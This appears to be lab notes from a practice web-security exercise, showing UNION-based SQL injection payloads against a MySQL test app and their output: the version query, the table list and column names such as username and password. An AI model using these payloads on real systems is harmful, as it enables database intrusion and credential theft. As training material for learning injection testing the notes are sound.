 ### Column

UNION SELECT column_name from information_schema.columns#

### Retrieve Data

UNION SELECT username from <Table>

### Version Query

Insert version query make it return at the 3rd column. Which tells us the version of the SQL database is 8.0.43.

- SQL: bob' union select null,null,version()#
    
    Username: bob - Email: [bob@example.com](mailto:bob@example.com)
    Username: - Email: 8.0.43
    

### Available_Table Query

Use `table_name from information_schema.tables` to retrieve all available table name from the DB.

- SQL: bob' union select null,null,table_name from information_schema.tables#
    
    Username: bob - Email: [bob@example.com](mailto:bob@example.com)
    Username: - Email: CHARACTER_SETS
    Username: - Email: CHECK_CONSTRAINTS
    Username: - Email: COLLATIONS
    Username: - Email: EVENTS
    Username: - Email: FILES
                 .
                 .
                 .
    Username: - Email: injection0x01
    Username: - Email: injection0x02
    Username: - Email: injection0x03_products
    Username: - Email: injection0x03_users
    Username: - Email: xss0x02
    

### Available_Column Query

Use `column_name from information_schema.columns` to retrieve all available column names from the DB.

- SQL: bob' union select null,null,column_name from information_schema.columns#
    
    Username: bob - Email: [bob@example.com](mailto:bob@example.com)
    Username: - Email: ENCRYPTION
    Username: - Email: username
    Username: - Email: password
    Username: - Email: email
    Username: - Email: session
    
